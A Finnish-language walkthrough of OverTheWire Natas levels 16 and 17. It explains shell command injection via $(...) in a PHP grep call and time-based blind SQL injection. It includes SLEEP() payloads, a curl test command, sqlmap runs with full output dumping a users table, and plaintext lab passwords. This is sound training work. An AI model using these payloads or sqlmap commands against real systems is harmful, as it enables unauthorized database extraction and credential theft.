







# Natas 16 - START HERE;

| natas16  | hPkjKYviLQctEW33QmuXL6eDVfMW4sGo |
 
tämä harjoitus muistuu level 9 ja 10:ltä, mutta muutama välissä on ollut muuta että joutuu palaa taakse päin. Kuitenkin tässä level 16:ssa jos syöttää jotakin se käy ihan kuin koko sanakirjan lävitse mitä se on nimennyt `dictionary.txt` sanat lävitse.

Aikaisemmassa noissa oli , että jotenkin estää erikoismerkin ja välissä syötettään linux terminaali sanoja mm. pwd, ls ja jne, mutta nyt ei.

estettyjä erikoismerkkejö on nämä ainakin mukaan lukien tässä php koodissa: ` if(preg_match('/[;|&`\'"]/',$key)) {} `` , ja voi olla tässä jouduttaan selvittää se hakemiston tiedoston polku eli `/etc/natas_webpass/natas17` ja tämä pätee yhdistelyn tai suorittamisen.




Haavoittuvuuden osalta on tämä osuus: `grep -i "$key" dictionary.txt` - tämä tarkoittaa, että käyttäjän syöte menee komentoriville sellaisenaan. Vaikka monet vaaralliset merkit on estetty, aina voi etsiä keinoja ohittaa suodatus ja vaikka ei sisällä estettyjä erityismerkkiä, mutta joka silti manipuloi komentoa.

kokeilin "bsana" niin siellä `dictionary.txt` - alta ei löydy sellaista ainakaan, mutta voisi kirjoittaa mikä ei täsmenny sen listan mukaan. 



kokeillaan tätä `$(grep b /pwd)Sana`- ainakin toisti alemmat jutut

sanatoria
sanatorium
sanatorium's
sanatoriums




## Level 16 - 1 harjoituksen ideana

Tässä harjoituksen ideana on syöttää joku sana täsmentyy sen sanakirjan tekstitiedostoon `dictionary.txt` ja tämä PHP-koodipätkä on se tausta ikään kuin se käyttäjän syöte `passthru("grep -i \"$key\" dictionary.txt");`

Se mitä käyttäjä syöttää lomakkeeseen `needle` - kenttään niin siihen tulee se ns. "_käyttäjänsyöte_"


Miten tämä **$(....)** toimii tässä?

Esim. syötettäisiin sinne selaimen formaatti kenttään kuin: `$(echo african)` - niin shell suorittaa ensin `echo african`, ja korvaa koko `$(...)` sen palauttamalla arvolla mutta kuitenkin tämä toimii kuin injektio, mutta kuitenkin komentiinjektio on mahdollinen.

**Grep-komento**
Siinä PHP-koodissa on mainittu greppi osuus: `passthru("grep -i \"$key\" dictionary.txt");`.
periaatteessa tämän komento: `grep -i "$(echo african)" dictionary.txt` - voisi toimia ja toisaalta joka toimii kuin shell-komento, mikäli jos injektio toimii.

vähä kuin muuttuu muotoon: `grep -i "african" dictionary.txt`  - ja toisaalta tämä toimii normaalisti, jos $(...) ei ole estetty.

Ymmärtävämpi teoria:
Eli käyttäen tämän `$(...)` + sisään lisättynä `grep` termistö, joka toimii brute-force-hyökkäyksenä tyylisenä muotona ja muotoiltua/kierretty toista tapaa.


`$(...)` on komentorivin ominaisuus, joka suorittaa sisällä olevan komennon ja korvaa sen tulosteella, ja piste piste sisään mitä käyttäjä syöttää se on sitten toimii kuin **komentoinjektio** joka on just se haavoittuvuus prosessi.

Vaikka lopullinen komento menee vain grep:iin ja dictionary.txt sisällä olevia komento suoritettaan joka tapauksessa.


## Level 16 - 2 ACTION START HERE

Aloitettaan jotenkin tehdä sitä toimintaa, että seurattuna ja katsottu erilaisia ohjeita ja tapoja, sekä on mahdollista kokeilla ja runnata Kali Linux erikseen.

Paljon ohjeissa löytyy, että käyttää Python koodi pätkää, että sillä runnaa ja samahan pätee siinä pitää olla funktio, josta sallii tämä natas16 level:in ja sen kirjauttumisen salasanan.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 pythonkoodi.py 
E
Eq
Eqj
EqjH
EqjHJ
EqjHJb
EqjHJbo
EqjHJbo7
EqjHJbo7L
EqjHJbo7LF
EqjHJbo7LFN
EqjHJbo7LFNb
EqjHJbo7LFNb8
EqjHJbo7LFNb8v
EqjHJbo7LFNb8vw
EqjHJbo7LFNb8vwh
EqjHJbo7LFNb8vwhH
EqjHJbo7LFNb8vwhHb
EqjHJbo7LFNb8vwhHb9
EqjHJbo7LFNb8vwhHb9s
EqjHJbo7LFNb8vwhHb9s7
EqjHJbo7LFNb8vwhHb9s75
EqjHJbo7LFNb8vwhHb9s75h
EqjHJbo7LFNb8vwhHb9s75ho                                                                                            
EqjHJbo7LFNb8vwhHb9s75hok                                                                                           
EqjHJbo7LFNb8vwhHb9s75hokh                                                                                          
EqjHJbo7LFNb8vwhHb9s75hokh5                                                                                         
EqjHJbo7LFNb8vwhHb9s75hokh5T                                                                                        
EqjHJbo7LFNb8vwhHb9s75hokh5TF                                                                                       
EqjHJbo7LFNb8vwhHb9s75hokh5TF0
EqjHJbo7LFNb8vwhHb9s75hokh5TF0O
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

Tämä (ylempi) on se natas 17 salasanansa


# Level 16 - 2.5 miniyhteenveto

**Python**:
Miksi vastauksena mentiin Python koodilla, koska voi olla sen käyttö on hyödyllistä ja silloin kun suorassa komennossa injektiossa on vaikeuksia sen suodattimien takia. Python voi toistaa syötteitä ja analysoida tuloksia automaattisesti, mikä tekee brute force -hyökkäyksestä tehokkaamman.

Tämä ikään kuin varmistaisi, että syötteet on muotoiltu oikein ja käyttää PHP-scriptiä hyödyntämällä oikeita merkkejä kuten just `$()`. Tämä python koodi ratkaisu on yksi joka voi toteuttaa hyökkäystä tehokkaamin. 

Tämän level johtuen on siitä haasteessa käytettävä ympäristö suodattaa tai estää tietyt komennon, että siksi saatoi joutua käyttämäään Python ohjelmointikielen scriptiä ja täät olisi voinut suorittaa hyökkäystä normaalisti selaimen ja/tai terminaalin kautta, tai muita Kali Linux hyökkäys työkaluja.

Python voi mahdollista HTTP-pyyntöä ohjelmallisen lähettämistä ja vastausen käsittelyn automaattisesti, kun halutiin toteuttaa **brute-force hyökkäyst**, jossa tapahtui erilaisia merkkejä tai sanoja jatkuvasti ja automaattisesti. Jos palvelimella on suodattimia, niin voivat estää Python suoritettavaa komennon samalla tavalla kuin suora komentoinjektioiden yrittämisen terminaalissa.


**Mites Kali linux terminaali ja selaimen kautta**?

Molemmissa kuitenkin on rajoiteitta että haasteena on mahdolliset suodattimet, jotka estävät monimutkaisempia komentoja ja sama pätee erikoismerkkejä, ja websovellus ei suodattaa syötteitä ennen niiden lähettämistä palvelimelle. Selain kuitenkin on etu siinä, että käyttäjä voi nopeasti kokeilla erilaisia syötteitä ja nähdä palautteen. Terminaalissa kuitenkin voi suorittaa injektiota, mutta jos suodatus on liian tiukka, niin komennot voivat estyä.


## Level 16 - 3 Natas ohjeita ja linkkejä:

https://www.abatchy.com/2016/11/natas-level-16

http://github.com/psmiraglia/ctf/blob/master/overthewire/natas/natas16.md

https://samxia99.medium.com/overthewire-updated-natas-walkthrough-level-16-d3cb5b3f6c2e

https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/

https://learnhacking.io/overthewire-natas-level-16-walkthrough/

---

# Level 17 - START HERE

natas17 : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

Etusivulla ainakin syötin jotakin satunnaista sanaa, mutta tuloksena antoi tyhjän sivuston eli "index.php" - Kun tarkastellaan sitä "index-source.tml" välilehden sivustoa ainakin näyttää siellä on vinkkinä annettu on luotu tietokanta taulukkona `users`.






Koodi pätkä muistuu kuitenkin aikaisempaa level 14 ja 15 SQL injektiota, mutta tämä on haasteellisempi ja se hakee sen kysellynsä




Tässä PHP-koodipätkässä, kertoo jos käyttäjä syöte ehto jos on olemassa, toisena käyttäjä ei ole olemassa ja viimeisenä tuntematon/virhe kysely ja huomioina ne on kommentoitu eli // kentät.

```
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

Eli tästä tuloksesta emme saada mitään tulosta (feedback), koska jos syöttää esim. "matti" - niin se ei kerro meille onko matti olemassa vai ei, että virheittäkään ei tulostu - niin tässä on kyseessä **time-blind SQL inection** level. Tässä tullaan suoriutua/testata ajallisen viivettä (aikataso hyökkäys) -> palvelin vastaa hitaammin, jos tietty ehto on tosi.

## Natas 17 - SLEEP() Injection

Tässä harjoituksessa onkin kyseessä suoritettava SQL-injektio (blind SQL injection), eli hyökkäystekniikka, jossa palvelin ei anna näkyvää vastausta — ei "käyttäjä on olemassa" tai "ei ole olemassa" — vaikka syötät mitä tahansa.

Mutta nyt tarkasti: vaikka palvelin ei palauta mitään näkyvää vastausta, voimme päätellä silti jotain sen käytöksestä — esimerkiksi vastausajasta.

Tämä on esim kommento, että testatan toimiiko ja jos palvelin viivyttää 5 sekunnin ajan, niin se voi kertoa SQL injektio onnistui ja ehto 1=1 - toisinsanoen totta.
```
time curl -s -X POST -d "username=x\" OR IF(1=1,SLEEP(5),0) -- " \
  -u natas17:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo \
  http://natas17.natas.labs.overthewire.org/
``` 


**Ajallinen viive SQL-injektiossa** on hyödyllinen tekniikka, jossa hyödynnetään palvelimen vastauksen viivettä paljastamaan tietokannan rakenteita tai paljastamaan tietoa, kuten oikea salasana tai käyttäjänimi. Ajalliset SQL-injektiot hyödyntävät `SLEEP()`-komentoa tietokannassa, joka viivyttää palvelimen vastausta tietyn ajan.


**Ajallinen viive SQL-injektio:**
- Tavoite: Aikaviiveen avulla voidaan päätellä, onko syötetty SQL-lause oikein muodostettu ja onko tietty ehto totta. Jos SQL-lauseessa on SLEEP()-komento ja se toteutuu, palvelin viivyttää vastausta.

- Toteutus: Testaamalla, kuinka kauan vastaus kestää, voidaan päätellä, onko tietty ehto totta (esim. 1=1), mikä voi paljastaa tietoa.

**Mitä SLEEP(5) tekeekään?**
Käyttäjä ei lähetä mitään pyyntöä 5 sekunnin välein, vaan palvelin itse odottaa, jos SQL-ehto on tosi ennen kuin se palauttaa viestinsä takaisin käyttäjälle.

Esim. tapahtumana SQL lause luodaan palvelimella: `SELECT * FROM users WHERE username="test" OR IF(1=1, SLEEP(5), 0) --`
- `1=1`on aina tosi -> SLEEP(5) aktivoituu
- palvelin odottaa 5 sekunttia ennen kuin se palauttaa mitään
- Käyttäjä odottaa sen 5 sekunnin ja sitten vasta saa vastauksensa

Vaikka ei näkisi mitään tulostetta niin voi päätellä ehdon onnistumisen viiveen perusteella.


🧠 Miksi tämä on hyödyllistä?
Tämä viive kertoo sinulle, että:
- Injektio onnistui (koska viivettä tuli)
- Ehto oli tosi (esim. joku tietty merkki salasanassa oli oikea)
- Voit käyttää tätä tietovuotoon ilman näkyviä tulosteita!

Sekä tässä harjoituksessen toisessa välilehdessä `index-source.html` kentällä on mainittu tietokantaa.
Mikä tarkoittaa etsiäkseen tietokannasta salasansa merkkiä kerrallaan käyttämällä palvelimen vastausviivetä (ajallisen SQL injektio), ilman että näkee mitään suoraan tulosettta.

Tämä ois looginen brute-force esimerkki, joka sitten tarkoittaisi kävisi kaikki aakkos järjestykset lävitse, ja tämä ei ole satunnainen arvaaminen, vaan **järjestelmällinen, viiveeen perustuva brute-force:**
```
username=natas18" AND IF(SUBSTRING(password,1,1)="a",SLEEP(3),0) -- 
username=natas18" AND IF(SUBSTRING(password,1,1)="b",SLEEP(3),0) -- 
username=natas18" AND IF(SUBSTRING(password,1,1)="c",SLEEP(3),0) -- 
...
```


## Natas 17 - 1 - pikainen testaus

Kokeillaan aikaisempien perusteella mitä harjoiteltu mm. SQL injektiota ja jne, että kokeillaan saadaan selville mitään.

Username kenttään lomakkeelle ainakin kokeilin muutamia vaihtoehtoja, mutta niissäkin siirtyy "index.php" tyhjään välilehteen mm. näitä injektiota

- ' OR 1=1
- sdf' OR 1=1
- username=1 OR "1"
- http://natas17.natas.labs.overthewire.org/index.php?debug?username=%22admin%22




# Natas 17 - 2 - Kali Linux - START HERE;

natas17 : EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

## SQLMAP - START HERE

Tämä komento sama kuin aikaisempi, muttam uokattuna ja pitää vähä editoida

Käytä time-based blind injectionia, ja anna SQLMapin itse testata viiveitä:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" \
--auth-type=Basic \
--auth-cred=natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
--data="username=natas18" \
--technique=T --time-sec=5 \
--level=5 --risk=3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:06:48 /2025-05-21/

[19:06:49] [INFO] testing connection to the target URL
[19:07:00] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[19:07:00] [INFO] testing for SQL injection on POST parameter 'username'
[19:07:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:07:00] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[19:07:44] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
[19:07:48] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[19:09:18] [WARNING] heuristic (basic) test shows that parameter 'User-Agent' might not be injectable
[19:09:18] [INFO] testing for SQL injection on parameter 'User-Agent'
[19:09:18] [WARNING] parameter 'User-Agent' does not seem to be injectable
[19:09:18] [WARNING] heuristic (basic) test shows that parameter 'Referer' might not be injectable
[19:09:18] [INFO] testing for SQL injection on parameter 'Referer'
[19:09:19] [WARNING] parameter 'Referer' does not seem to be injectable
[19:09:19] [WARNING] heuristic (basic) test shows that parameter 'Host' might not be injectable
[19:09:19] [INFO] testing for SQL injection on parameter 'Host'
[19:09:19] [WARNING] parameter 'Host' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas18" AND (SELECT 5495 FROM (SELECT(SLEEP(5)))SXXu) AND "vuKd"="vuKd
---
[19:09:19] [INFO] the back-end DBMS is MySQL
[19:09:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[19:09:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas17.natas.labs.overthewire.org'                                                                                                                
[19:09:19] [WARNING] your sqlmap version is outdated

[*] ending @ 19:09:19 /2025-05-21/
```

Tuloksena kertoi on onnistunut ja kohde on haavoittuvua SQL injektio just kyseisen **time-based blind sql injectiolle** (ylempi tulos)


## 📥 Mitä seuraavaksi?
Seuraavaksi aloin suorittaa samoja tai kaltaista komentoa, joka suoriutui samanlailla kuin level 14 ja 15:ssa, että pieni lunttilappuna, mutta silti tämän **SQLmap** injektion komentoa pitää rakentaa tarkasti, että mitä halutaan toistaa.

1️⃣ Listata tietokannan taulut:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" \
--auth-type=Basic \
--auth-cred=natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
--data="username=natas18" \
--technique=T --time-sec=5 \
--level=5 --risk=3 \
--tables -D natas17
        ___
       __H__                                                                                                              
 ___ ___[,]_____ ___ ___  {1.8.5#stable}                                                                                  
|_ -| . ["]     | .'| . |                                                                                                 
|___|_  [(]_|_|_|__,|  _|                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:12:32 /2025-05-21/

[19:12:32] [INFO] resuming back-end DBMS 'mysql' 
[19:12:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas18" AND (SELECT 5495 FROM (SELECT(SLEEP(5)))SXXu) AND "vuKd"="vuKd
---
[19:12:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[19:12:32] [INFO] fetching tables for database: 'natas17'
[19:12:32] [INFO] fetching number of tables for database 'natas17'
[19:12:32] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[19:12:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
1
[19:12:42] [INFO] retrieved: users
Database: natas17
[1 table]
+-------+
| users |
+-------+

[19:13:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas17.natas.labs.overthewire.org'                                                                                                                
[19:13:59] [WARNING] your sqlmap version is outdated

[*] ending @ 19:13:59 /2025-05-21/
```


2️⃣ Näyttää sarakkeet users-taulusta:
Tässä tuli pieni fail, koska siinä alkoi mennä kauemmin , mutta siksi kolmas steppissä meni paremmaksi (miksi, vastaus on alhaalla 3.)

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" \
--auth-type=Basic \
--auth-cred=natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
--data="username=natas18" \
--technique=T --time-sec=5 \
--level=5 --risk=3 \
--column -D natas17 -T users    
        ___
       __H__                                                                                                              
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                  
|_ -| . [)]     | .'| . |                                                                                                 
|___|_  [,]_|_|_|__,|  _|                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:23:13 /2025-05-21/

[19:23:14] [INFO] resuming back-end DBMS 'mysql' 
[19:23:14] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas18" AND (SELECT 5495 FROM (SELECT(SLEEP(5)))SXXu) AND "vuKd"="vuKd
---
[19:23:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[19:23:14] [INFO] fetching columns for table 'users' in database 'natas17'
[19:23:14] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[19:23:16] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[19:23:41] [ERROR] invalid character detected. retrying..
2
[19:24:20] [ERROR] invalid character detected. retrying..

[19:24:20] [INFO] retrieved: 
[19:24:48] [ERROR] invalid character detected. retrying..
u
[19:26:22] [ERROR] invalid character detected. retrying..
sernam
[19:27:58] [ERROR] invalid character detected. retrying..
[19:28:39] [ERROR] invalid character detected. retrying..
e
[19:28:50] [INFO] retrieved: v
[19:29:53] [ERROR] invalid character detected. retrying..
archar(64)
[19:32:41] [INFO] retrieved: 
[19:33:13] [ERROR] invalid character detected. retrying..
pas
[19:34:54] [ERROR] invalid character detected. retrying..
sword
[19:36:23] [INFO] retrieved: va
[19:37:36] [ERROR] invalid character detected. retrying..
r
[19:38:33] [ERROR] invalid character detected. retrying..
cha
[19:39:52] [ERROR] invalid character detected. retrying..
r
[19:40:43] [ERROR] invalid character detected. retrying..
(6
[19:41:49] [ERROR] invalid character detected. retrying..
4^C

[19:42:31] [WARNING] your sqlmap version is outdated

[*] ending @ 19:42:31 /2025-05-21/
```

Tämä on normaalia tällaisissa hyökkäyksissä, koska:
- Palvelin ei anna suoraa vastausta
- SQLMap tekee yksi merkki kerrallaan, viiveellä useita HTTP-pyyntöjä
- Lisäksi verkkoyhteys, palvelimen kuorma tai noise voi aiheuttaa virhei

3️⃣ Hakea tiedot (esim. käyttäjät + salasanat):
Tässä nyt alkoi pelittää, koska nyt haettiin `users` tietoja tuolta taulusta, että dumppataan sitä tietoa ulos ja aika meni tosi pitkään, mutta se on sitä kärsivällsiyyttää. Kuitenkin **SQLmap** on yksi tapa selvittää sitä tietokannan prosessia, mutta tänne leveliin tulee muita keinoa ja tapaa selvittää.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" \
--auth-type=Basic \
--auth-cred=natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
--data="username=natas18" \
--technique=T --time-sec=5 \
--level=5 --risk=3 \
--dump -T users -D natas17
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:43:59 /2025-05-21/

[19:43:59] [INFO] resuming back-end DBMS 'mysql' 
[19:43:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas18" AND (SELECT 5495 FROM (SELECT(SLEEP(5)))SXXu) AND "vuKd"="vuKd
---
[19:44:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[19:44:00] [INFO] fetching columns for table 'users' in database 'natas17'
[19:44:00] [INFO] resumed: 2
[19:44:00] [INFO] resumed: username
[19:44:00] [INFO] resumed: password
[19:44:00] [INFO] fetching entries for table 'users' in database 'natas17'
[19:44:00] [INFO] fetching number of entries for table 'users' in database 'natas17'
[19:44:00] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[19:44:08] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[19:44:09] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
0xjsNNj
[19:47:48] [ERROR] invalid character detected. retrying..
GvHkb7p
[19:51:14] [ERROR] invalid character detected. retrying..
